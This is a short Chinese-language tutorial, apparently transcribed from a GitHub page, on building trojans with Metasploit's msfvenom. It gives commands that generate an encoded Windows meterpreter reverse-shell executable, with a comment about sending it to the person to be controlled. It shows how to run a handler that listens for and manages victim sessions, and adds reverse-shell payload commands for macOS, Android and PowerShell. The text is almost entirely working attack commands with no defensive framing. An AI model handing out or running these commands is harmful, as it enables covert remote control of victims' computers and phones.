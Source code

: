 ### 生成exe木马：

```
sudo su  #进入root权限目录

msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_tcp LHOST=[自己ip] LPORT=4444 -b "\00" -e x86/shikata_ga_nai -f exe > msf.exe
# 在目标电脑上生成一个exe木马，可下载下来发给被控制人
# 攻击载荷windows/meterpreter/reverse_tcp

# 在msf里建立木马控制端：
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # 设置攻击载荷
set LHOST [自己ip]
exploit # 进入监听状态
# 此时如果有木马启动，就会连接我

background   # 暂时不操作，把木马放到后台
sessions     # 查看控制了多少人
sessions -i 1   # 进入1号主机控制端
jobs      # 查看目前在执行多少任务
back      # 后退一格
exit  #退出木马，关闭木马
```



### 其他生成木马的命令：

生成mac木马：

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=自己ip LPORT=4444 -f macho -o payload.macho

# 老版本的mac
```



生成android木马（需要数字签名）：

```
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=自己ip LPORT=4444 -f apk -o payload.apk
```



生成powershell木马：

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=自己ip LPORT=4444 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

